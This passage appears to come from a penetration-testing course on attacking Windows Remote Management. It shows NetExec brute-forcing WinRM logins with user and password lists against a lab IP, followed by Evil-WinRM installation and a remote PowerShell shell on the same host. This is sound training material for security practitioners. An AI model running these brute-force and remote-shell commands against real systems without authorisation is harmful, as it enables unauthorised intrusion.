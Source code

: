 ### **NetExec Usage**

The general format for using NetExec is as follows:

```shell-session
netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

As an example, this is what attacking a WinRM endpoint might look like:

```shell-session
$ netexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

The appearance of `(Pwn3d!)` is the sign that we can most likely execute system commands if we log in with the brute-forced user.

## **Evil-WinRM**

Another handy tool that we can use to communicate with the WinRM service is [Evil-WinRM](https://github.com/Hackplayers/evil-winrm), which allows us to communicate with the WinRM service efficiently.

### **Installing Evil-WinRM**

```shell-session
$ sudo gem install evil-winrm

Fetching little-plugger-1.1.4.gem
Fetching rubyntlm-0.6.3.gem
Fetching builder-3.2.4.gem
Fetching logging-2.3.0.gem
Fetching gyoku-1.3.1.gem
Fetching nori-2.6.0.gem
Fetching gssapi-1.3.1.gem
Fetching erubi-1.10.0.gem
Fetching evil-winrm-3.3.gem
Fetching winrm-2.3.6.gem
Fetching winrm-fs-1.3.5.gem
Happy hacking! :)
```

### **Evil-WinRM Usage**

```shell-session
evil-winrm -i <target-IP> -u <username> -p <password>
```

```shell-session
$ evil-winrm -i 10.129.42.197 -u user -p password

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\user\Documents>
```
